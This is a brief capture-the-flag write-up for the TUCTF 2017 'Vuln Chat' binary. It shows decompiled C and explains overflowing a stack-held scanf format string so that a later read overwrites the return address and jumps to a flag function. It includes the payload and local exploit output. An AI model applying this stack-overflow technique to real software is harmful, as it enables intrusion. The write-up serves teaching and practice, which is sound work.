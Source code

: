 # TUCTF 2017 Vuln Chat

```Canary``` and ```PIE``` are disabled, and there is a ```printFlag``` function at ```0x804856b```.

```c
  local_9 = 0x73303325; // %30s
  local_5 = 0;
  __isoc99_scanf(&local_9,local_1d);
  printf("Welcome %s!\n",local_1d);
  puts("Connecting to \'djinn\'");
  sleep(1);
  puts("--- \'djinn\' has joined your chat ---");
  puts("djinn: I have the information. But how do I know I can trust you?");
  printf("%s: ",local_1d);
  __isoc99_scanf(&local_9,local_31);
```

We will have to overflow into ```local_9``` and change the format string parameter to allows us to overflow ```ret```. 

```bash
[root@pwn:~/tuctf2017_vulnchat]$ python expl.py 
[+] Starting local process './vuln-chat': pid 2159
[*] Switching to interactive mode
----------- Welcome to vuln-chat -------------
Enter your username: Welcome AAAAAAAAAAAAAAAAAAAA%90s!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
AAAAAAAAAAAAAAAAAAAA%90s: djinn: Sorry. That's not good enough
flag{generic-flag}
Use it wisely
```